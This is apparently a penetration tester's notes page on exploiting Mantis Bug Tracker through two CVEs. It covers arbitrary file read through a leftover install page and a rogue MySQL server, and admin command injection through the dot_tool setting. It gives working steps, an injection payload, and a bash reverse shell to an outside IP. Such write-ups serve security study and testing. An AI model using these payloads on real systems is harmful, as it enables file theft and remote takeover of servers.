


---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---

# Mantis BT

[Mantis Bug Tracker](https://github.com/mantisbt/mantisbt), commonly referred to as MantisBT, is an open-source, web-based issue tracking system designed to help manage software development projects by streamlining the process of reporting, tracking, and resolving bugs or feature requests. Originally developed in PHP, MantisBT supports multiple back-end databases, including MySQL, PostgreSQL, and MariaDB, and can be deployed on a variety of operating systems and web servers.

The system provides a structured environment where users can submit issues, track their status, assign them to team members, and monitor progress through customizable workflows. Role-based access control is integrated to define what different types of users—such as reporters, developers, and administrators—can view or modify. MantisBT also supports notifications, time tracking, attachments, and relationships between issues, enabling a more comprehensive understanding of project health and ongoing tasks.

## LFI

Mantis BT versions up to `2.5.2` are affected by a LFI vulnerability ([CVE-2017-12419](https://www.cve.org/CVERecord?id=CVE-2017-12419)) which stems from a post-installation misconfiguration combined with a permissive database setting. The vulnerability arises when the MantisBT `/admin` directory—used during initial setup—is not deleted after installation, despite official documentation explicitly advising its removal as a security precaution.

<figure><figcaption></figcaption></figure>

If this directory remains accessible and the MySQL or MariaDB server is configured with the `LOCAL INFILE` capability enabled (controlled by `mysqli.allow_local_infile` in `php.ini` or through MySQL client configuration), an attacker can exploit this scenario to **read arbitrary files** from the MantisBT server. The attack leverages MySQL’s ability to load data from the server’s local filesystem using crafted SQL queries issued via the exposed installation interface. The above CVE link includes the [original vulnerability report](https://mantisbt.org/bugs/view.php?id=23173) which has the reproduction steps:

1. Run [Rogue-MySql-Server](https://github.com/allyshka/Rogue-MySql-Server) and specify the target file:

```bash
$ php roguemysql.php
Enter filename to get [/etc/passwd] > /var/www/html/bugtracker/config/config_inc.php
[.] Waiting for connection on 0.0.0.0:3306
```

2. Browse to the endpoint below:


```bash
$ curl --path-as-is -s "http://mantisbt-instance/bugtracker/admin/install.php?install=3&hostname=192.168.45.170"
```


3. Check the server:


```bash
[+] Connection from 192.168.155.204:36486 - greet... auth ok... some shit ok... want file...
[+] /var/www/html/bugtracker/config/config_inc.php from 192.168.155.204:36486:
<?php
$g_hostname               = 'localhost';
$g_db_type                = 'mysqli';
...
```


## Authenticated Command Injection

Mantis BT versions prior to `2.22.1` are affected by a a post-authentication command injection vulnerability ([CVE-2019-15715](https://app.gitbook.com/o/asuXdppEfmgK9Dr478w0/s/mjLkek16kB60c2WFd5lf/)) which is **exploitable by users with administrative access**. The issue stems from two configuration options—`dot_tool` and `neato_tool`—which define the executables used to generate relationship and workflow graphs via Graphviz. These values are directly embedded into shell commands without proper sanitization and executed using PHP’s `proc_open()` function.

By injecting shell metacharacters (e.g. using `;`), an attacker can execute arbitrary commands on the server. For example, setting `dot_tool` to a payload like `dot; php -r 'system("id");'` results in code execution when the graph is generated. Although authentication is required, this vulnerability provides a straightforward path to remote code execution if admin credentials are compromised or misused.

1. Login to the Mantis BT instance as an `administrator`
2. Navigate to _Manage_ → _Manage Configuration_ → _Configuration Report_ and scroll down to _Create Configuration Option_
3. Type _relationship\_graph\_enable_ into _Configuration Option_ with a value of `1` to enable the graphs and hit _Create Configuration Option_
4. Scroll back down to _Create Configuration Option_ and type _dot\_tool_ into _Configuration Option_ with a value of the desired payload and hit _Create Configuration Option_

```bash
# Reverse shell payload
$ echo "/bin/bash -c 'bash -i >& /dev/tcp/192.168.45.170/80 0>&1'" | base64
L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNDUuMTcwLzgwIDA+JjEnCg==
```

<figure><figcaption></figcaption></figure>

6. Browse to [http://mantis/workflow\_graph\_img.php](http://mantisbt/workflow_graph_img.php)


```bash
$ curl -s --path-as-is "http://mantis/bugtracker/workflow_graph_img.php" -H "Cookie: PHPSESSID=a2ksqfpkqkv3esgckdvjhcu1b6; MANTIS_secure_session=1; MANTIS_STRING_COOKIE=Tgl-0N5B643JKwIwNgD9s5dKRU_gdBsXawwO7p3ZaGM2ZI4gckyB84AmBRq-IFA7; MANTIS_PROJECT_COOKIE=0"
```

